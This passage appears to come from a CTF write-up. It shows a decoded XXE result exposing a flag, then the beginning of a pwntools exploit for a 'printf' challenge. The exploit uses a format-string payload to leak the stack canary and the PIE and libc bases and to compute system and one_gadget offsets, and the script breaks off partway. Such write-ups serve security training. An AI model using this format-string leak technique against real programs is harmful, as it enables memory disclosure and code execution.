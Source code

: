 Response of the above request is as followes:

```json
{
    "contact": {
        "name": "Jean PD9waHAKJGZsYWcgPSAnVFdDVEZ7dDFueV9YWEVfc3QxbGxfZXgxc3RzX2V2ZXJ5d2hlcmV9JzsK Dupont",
        "phone": "00 11 22 33 44",
        "adress": "42 rue du CTF",
        "zipcode": "75000",
        "city": "Paris"
    }
}
```

By decoding the base64 content from the name, We were able to retrieve the content of the flag.php file.

```php
<?php
$flag = 'TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}';
```

Flag: `TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}`

## printf (Pwn) 216pt

```pyhton
from pwn import *

context.log_level = 'debug'

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        # p = process(['./ld-linux.so.2', './printf'], env = {"LD_PRELOAD" : './libc.so.6'})
        p = process('./printf', env = {"LD_PRELOAD" : './libc.so.6'})
    else:
        p = remote(ip, port)

    # gdb.attach(pidof(p)[0])
    raw_input('wait to debug')
    p.recvuntil('name?\n')
    p.sendline('%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x|%llx|%x%x%x%x%x%x%x%x%x|%llx|%llx|%llx|')

    data = p.recvuntil('Do you')
    idx = data.index('|')
    stack_base = int(data[idx + 1 : data.index('|', idx + 1)], 16) - 0x266 -0x10
    idx = data.index('|', idx + 1)
    idx = data.index('|', idx + 1)
    canary = int(data[idx + 1 : data.index('|', idx + 1)], 16)
    idx = data.index('|', idx + 1)
    pie_base = int(data[idx + 1 : data.index('|', idx + 1)], 16)
    idx = data.index('|', idx + 1)
    libc_base = int(data[idx + 1 : data.index('|', idx + 1)], 16) - 0x26b6b

    log.info("stack base is : " + hex(stack_base))
    log.info("canary is : " + hex(canary))
    log.info("pie base is : " + hex(pie_base))
    log.info("libc base is : " + hex(libc_base))

    strlen_got_offest = 0x1E40A8 + libc_base 
    system_offest = 0x52FD0 + libc_base
    one_gadget = 0x106ef8 + libc_base
    offest = stack_base - strlen_got_offest - 23 + 8 - 0x10
```
